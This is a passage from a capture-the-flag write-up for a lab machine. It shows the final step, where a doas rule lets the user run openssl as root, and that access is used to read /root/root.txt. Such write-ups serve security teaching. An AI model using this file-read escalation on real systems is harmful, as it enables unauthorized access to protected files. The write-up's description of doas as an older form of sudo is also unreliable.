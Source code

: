 ```bash
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
plot_admin@plotted:~$
```

so as we can see from the log we have the **doas** binary which have **SUID** bit set. now let's check for the configuration file of the **doas** command. for those who don't know about **doas**, so **doas** is like the previous version of the **sudo** command which is less bloated and generally less used than **sudo** or we can say **sudo** is a modern replacement for **doas** command.

```bash
plot_admin@plotted:~$ cat /etc/doas.conf
permit nopass plot_admin as root cmd openssl
plot_admin@plotted:~$
```

So from the **configuration file** we can see that our **plot_admin** user is in the configuration file and can run **openssl** command as the **root** user without asking for **password**.

so let's read out the root flag.

```bash
plot_admin@plotted:~$ LFILE=/root/root.txt
plot_admin@plotted:~$ doas -u root openssl enc -in "$LFILE"
Congratulations on completing this room!

xxxxxxxxxxxxxxxxxxxxxxxxxx

Hope you enjoyed the journey!

Do let me know if you have any ideas/suggestions for future rooms.
-sa.infinity8888
plot_admin@plotted:~$
```

So here we completed the machine. Thanks for reading, hope you enjoyed it, share if you like it.

